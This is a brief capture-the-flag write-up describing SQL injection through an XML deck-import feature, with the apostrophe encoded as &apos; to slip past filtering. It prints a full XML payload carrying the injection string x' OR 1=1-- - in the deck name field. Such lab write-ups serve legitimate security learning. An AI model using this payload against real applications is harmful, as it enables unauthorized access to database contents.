

Daily challenge.
Hint: *SQLi via XML?*

In the *My Decks* section there is a feature that allows the user to import deck from XML. The `'` character is not supported, so it must be HTML encoded into `x&apos;`.
The working payload:
```
<?xml version="1.0" encoding="UTF-8"?>

<deck>

    <name>x&apos; OR 1=1-- -</name>

    <description>test</description>

    <category>x</category>

    <cards>

        <card>

            <front>FLAG</front>

            <back>test</back>

        </card>

    </cards>

</deck>
```
After importing it, I got a flag.

